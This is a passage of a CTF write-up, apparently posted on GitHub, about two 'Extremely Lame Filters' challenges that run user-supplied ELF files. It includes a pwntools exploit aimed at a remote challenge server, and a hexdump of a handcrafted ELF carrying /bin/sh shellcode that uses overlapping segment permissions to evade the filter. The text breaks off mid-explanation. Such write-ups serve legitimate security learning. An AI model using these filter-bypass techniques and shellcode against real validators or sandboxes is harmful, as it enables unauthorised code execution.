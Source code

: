 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. bytes 0x08 to 0x0f is